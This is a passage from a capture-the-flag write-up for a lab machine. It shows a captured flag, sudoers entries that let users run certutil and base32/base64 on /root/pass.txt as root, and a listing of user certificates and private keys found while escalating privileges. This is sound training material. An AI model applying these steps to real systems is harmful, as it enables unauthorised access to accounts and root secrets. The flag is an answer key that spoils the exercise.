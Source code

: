 **Flag 1 : THM{f05780f08f0eb1de65023069d0e4c90c}**

## Fred's Flag
Now it's time for Fred. According to the CTF creator's hint, access to Fred's account can be gained in the same way as Barney's, by having the certificate and key. I am searching through directories to learn more. In the sudoers.d directory, I came across a mention that the user Barney has sudo privileges for certutil.

```yaml
barney@b3dr0ck:/etc$ cd sudoers.d
barney@b3dr0ck:/etc/sudoers.d$ ls
barney  fred  README
barney@b3dr0ck:/etc/sudoers.d$ cat barney
barney ALL=(ALL:ALL) /usr/bin/certutil
barney@b3dr0ck:/etc/sudoers.d$ cat fred 
fred ALL=(ALL:ALL) NOPASSWD: /usr/bin/base32 /root/pass.txt
fred ALL=(ALL:ALL) NOPASSWD: /usr/bin/base64 /root/pass.txt
```

```terminal
> sudo -l 
```

next 
```terminal
> certutil
```

Certutil displayed the following message to me:

```yaml
barney@b3dr0ck:/usr/bin$ certutil

Cert Tool Usage:
----------------

Show current certs:
  certutil ls

Generate new keypair:
  certutil [username] [fullname]
```
I then enter the command **certutil ls**

```yaml
barney@b3dr0ck:/usr/bin$ certutil ls

Current Cert List: (/usr/share/abc/certs)
------------------
total 56
drwxrwxr-x 2 root root 4096 Apr 30  2022 .
drwxrwxr-x 8 root root 4096 Apr 29  2022 ..
-rw-r----- 1 root root  972 Mar 30 16:24 barney.certificate.pem
-rw-r----- 1 root root 1674 Mar 30 16:24 barney.clientKey.pem
-rw-r----- 1 root root  894 Mar 30 16:24 barney.csr.pem
-rw-r----- 1 root root 1674 Mar 30 16:24 barney.serviceKey.pem
-rw-r----- 1 root root  976 Mar 30 16:23 fred.certificate.pem
-rw-r----- 1 root root 1674 Mar 30 16:23 fred.clientKey.pem
-rw-r----- 1 root root  898 Mar 30 16:23 fred.csr.pem
-rw-r----- 1 root root 1674 Mar 30 16:23 fred.serviceKey.pem
```
